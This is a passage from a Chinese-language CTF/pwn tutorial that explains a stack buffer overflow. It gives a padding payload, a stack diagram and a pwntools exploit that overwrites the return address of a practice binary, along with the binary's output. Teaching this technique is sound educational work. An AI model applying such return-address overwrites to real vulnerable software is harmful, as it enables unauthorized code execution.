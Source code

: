 ```
0x18*'a'+success_addr
```
这样就会将retaddr覆盖巍峨哦success_addr,此时栈结构为：
```
                  +-----------------+
                  |    0x0804843B   |
                  +-----------------+
                  |       aaaa      |
           ebp--->+-----------------+
                  |                 |
                  |                 |
                  |                 |
                  |                 |
                  |                 |
                  |                 |
     s,ebp-0x14-->+-----------------+
```

## pwn测试
使用pwntools，怎么使用，以具体的exp来介绍，比如stack1的exp如下：
```
from pwn import *

p = process('./stack1')
ret_addr = 0x08048456
offset = 0x18

payload = 'A' * offset + p32(ret_addr)
print(ret_addr,p32(ret_addr))

p.sendline(payload)
p.interactive()

```
> 1. 连接
> 本地process(),远程remote()
> 2. 数据处理
> p32、p64是打包（转换成二进制），u32、u64是解包
> 3. IO模块
> send(data) : 发送数据
> sendline(data) : 发送一行数据，相当于在末尾加\n
> interactive() : 与shell交互

执行exp：
```
$ python stack1.py
[+] Starting local process './stack1': pid 8328
(134513750, 'V\x84\x04\x08')
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAAAAAV\x84\x0
You Hava already controlled it.
[*] Got EOF while reading in interactive
$  
```
